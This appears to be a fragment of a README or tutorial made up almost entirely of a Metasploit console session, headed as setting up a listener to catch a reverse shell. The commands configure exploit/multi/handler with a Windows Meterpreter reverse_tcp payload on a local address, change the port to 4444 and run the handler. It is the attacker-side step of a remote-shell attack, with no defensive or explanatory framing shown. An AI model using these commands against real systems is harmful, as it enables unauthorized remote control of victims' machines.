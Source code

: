 

### Setup a listener to catch the reverse shell on port 4444

    msf exploit(handler) > use exploit/multi/handler 
    msf exploit(handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     7777             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(handler) > run
    
    [*] Exploit running as background job 5.
    